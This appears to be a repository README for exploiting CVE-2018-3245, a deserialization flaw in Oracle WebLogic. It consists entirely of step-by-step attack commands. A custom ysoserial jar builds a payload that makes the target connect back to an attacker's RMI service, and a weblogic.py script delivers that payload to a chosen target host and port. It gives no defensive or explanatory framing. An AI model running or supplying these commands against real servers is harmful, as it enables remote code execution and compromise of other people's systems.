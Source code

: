 # CVE-2018-3245

## Step 1

`java -jar ysoserial-cve-2018-3245.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc5.ser`

## Step 3

`python weblogic.py [TARGET_HOST] [PORT] poc5.ser`



